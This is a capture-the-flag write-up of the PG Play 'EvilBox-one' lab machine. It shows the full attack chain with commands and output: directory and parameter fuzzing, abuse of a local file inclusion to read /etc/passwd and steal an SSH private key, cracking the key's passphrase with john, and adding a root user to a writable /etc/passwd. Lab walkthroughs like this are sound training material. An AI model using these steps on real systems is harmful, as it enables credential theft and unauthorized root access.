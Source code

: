 # PG Play: [EvilBox-one](https://portal.offensive-security.com/labs/play)

![image](https://user-images.githubusercontent.com/87611022/180659095-75dc4574-0a14-4866-8756-cae67ee8616a.png)

As usual we start by port scanning the machine:

```
nmap -p22,80 -sV -sC -T4 -Pn -oA 192.168.204.212 192.168.204.212
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-24 11:49 EDT
Nmap scan report for 192.168.204.212
Host is up (0.070s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds
------------------------------------------------------------
Combined scan completed in 0:00:58.133619
```
We can see an SSH service running on the victim machine; the version is not vulnerable so we switch our efforts to the web page.

Our enumeration starts with directory brute forcing using [dirb](https://www.kali.org/tools/dirb/):
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# dirb http://192.168.204.212/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jul 24 11:50:20 2022
URL_BASE: http://192.168.204.212/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.204.212/ ----
+ http://192.168.204.212/index.html (CODE:200|SIZE:10701)                                                                                                                                                                                   
+ http://192.168.204.212/robots.txt (CODE:200|SIZE:12)                                                                                                                                                                                      
==> DIRECTORY: http://192.168.204.212/secret/                                                                                                                                                                                               
+ http://192.168.204.212/server-status (CODE:403|SIZE:280)                                                                                                                                                                                  
                                                                                                                                                                                                                                            
---- Entering directory: http://192.168.204.212/secret/ ----
^C> Testing: http://192.168.204.212/secret/editorials                                                                                                                                                                                       
                                                      
```
We find two interesting outputs: __robots.txt__ and __secret__

robots.txt contains the following:
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# curl http://192.168.204.212/robots.txt       
Hello H4x0r
```
while the secret directory contains an empty web page so we further enumerate this directory:
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# dirb http://192.168.204.212/secret -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jul 24 12:07:26 2022
URL_BASE: http://192.168.204.212/secret/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.204.212/secret/ ----
+ http://192.168.204.212/secret/evil.php (CODE:200|SIZE:0)
```
As we can see it contains an interesting file __evil.php__ but it's also an empty web page :(

Since there are no other paths I tried paramater fuzzing against __evil.php__
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# ffuf -u 'http://192.168.204.212/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.204.212/secret/evil.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

command                 [Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 68ms]

```
It looks like we found a vulnerable parameter, let's try it against the web page:

![image](https://user-images.githubusercontent.com/87611022/180658479-a84aca70-e63a-4673-a7d6-a8621a4f33d4.png)

From the output of passwd file above we notice a user named __mowree__, let's see if mowree has an _SSH_ private key:

![image](https://user-images.githubusercontent.com/87611022/180658562-cbc5b5f3-434f-41fa-93f2-3a4fb152bfdf.png)

We download that key to our machine and try to login as mowree:
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# curl -o id_rsa http://192.168.204.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1743  100  1743    0     0  12664      0 --:--:-- --:--:-- --:--:-- 12722
                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# chmod 600 id_rsa

┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# ssh mowree@192.168.204.212 -i id_rsa                                                                                                                                                                                               130 ⨯
The authenticity of host '192.168.204.212 (192.168.204.212)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.204.212' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
mowree@192.168.204.212's password: 
Permission denied, please try again.
mowree@192.168.204.212's password:                                  
```
unfortunately it didn't work because it asks for a password, since we don't have the password we use [john](https://github.com/openwall/john)  to crack that key.

first we have to convert the key to a hash so __John__ can crack it:
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# python3 ssh2john.py id_rsa                                                                                                                                                                          126 ⨯
id_rsa:$sshng$0$8$9FB14B3F3D04E90E$1192$bae426d821487bf7994f9a4dc90ebe2b551aa7f15859cb04925cce36dfb1e003ba1668c5991f11529c0c1eeae66d10ba86aca88aff
.
.
.
```

then we crack that hash using john:
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# john hash.txt --wordlist=/root/tryhackme/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*Hidden*          (id_rsa)
```

and we login as mowree:
```
┌──(root💀kali)-[~/tryhackme/rooms/evilbox]
└─# ssh mowree@192.168.204.212 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ ls
local.txt
```

next step is to find possible privilege escalation paths, I used [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and found out that /etc/passwd is writeable by our user:

```
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                                                                                                                                                   
                                                                                                                                                                                                                                             
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ /etc/passwd is writable
```

So we can simply create a user with root privileges and __su__ to it.

first we create the passwd on our attacking machine using __openssl__

```
┌──(root💀kali)-[~]
└─# openssl passwd -1 -salt user3 pass123  
$1$user3$rAGRVf5p2jYTqtqOW5cPu/
```

then echo our user along with the password hash and add root privileges:
==dont forget to skip the dollar signs==

```
mowree@EvilBoxOne:/tmp$ echo "shawarmaman:\$1\$user3\$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash" >>/etc/passwd

mowree@EvilBoxOne:/tmp$ tail /etc/passwd
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
shawarmaman:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash
```
then we __su__ to our new user and get that proof.txt

```
mowree@EvilBoxOne:/tmp$ su shawarmaman
Contraseña: 
# cd /root
# cat proof.txt
*hidden*
```

That's all for this box it was really fun and relatively easy, Thank you for reading through this writeup :D 
